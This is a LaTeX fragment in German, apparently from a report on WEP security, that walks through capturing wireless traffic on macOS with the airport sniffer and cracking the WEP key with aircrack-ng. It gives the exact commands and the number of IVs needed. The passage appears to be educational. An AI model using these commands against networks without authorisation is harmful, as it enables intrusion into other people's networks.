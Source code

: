 Mit dem \textit{Sniffer} können benötigte Daten aus einem konkreten Netz aufgezeichnet werden. Es werden ca. 5'000 \gls{ivLabel}'s benötigt um den Schlüssel zu berechnen. Eine solche Aufzeichnung (capture) dauert unterschiedlich lange, je nach Nutzung des Netzes. Wird das Netz viel gebraucht, geht es schneller.

\begin{figure}[H]
	\centering
	\includegraphics[width=0.8\textwidth]{images/wep/sniffer.png}
	\caption{Sniffer -- OS X Wireless Diagnostics}
\end{figure}


Der Sniffer kann auch direkt über die Kommandozeile ausgeführt werden:
\begin{lstlisting}[style=lstStyleFramed]
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport
sudo airport en0 sniff <CHANNEL>
\end{lstlisting}

Anschliessend können die Daten, vom \textit{Sniffer} mit dem \textit{aircrack-ng} ausgewertet werden:
\begin{lstlisting}[style=lstStyleFramed]
aircrack-ng -b 00:0f:cc:b0:1a:c8 /private/tmp/airportSniff*.cap
\end{lstlisting}

So wird einem, falls genügend \gls{ivLabel}'s vorhanden sind, der \gls{wepLabel} ausgegeben (Dauer: 2 Sek.).
\begin{figure}[H]
	\centering
	\includegraphics[width=1.0\textwidth]{images/wep/aircrack-ng.png}
	\caption{aircrack-ng -- Terminalausgabe}
\end{figure}
